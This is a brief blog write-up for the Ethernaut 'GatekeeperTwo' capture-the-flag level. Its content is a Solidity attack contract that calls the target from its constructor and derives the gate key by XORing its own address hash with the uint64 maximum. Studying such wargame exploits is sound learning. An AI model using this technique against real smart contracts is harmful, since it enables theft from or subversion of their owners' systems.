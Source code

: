 +++
title = 'Ethernaut Level 14 - Gatekeepertwo'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Break even more gates'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Attack{
    bool public  success = false;
    constructor(address _addr) {
        GatekeeperTwo target = GatekeeperTwo(_addr);
        bytes8 key = bytes8(abi.encodePacked(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max));
        success = target.enter(key);
        
    }
}
```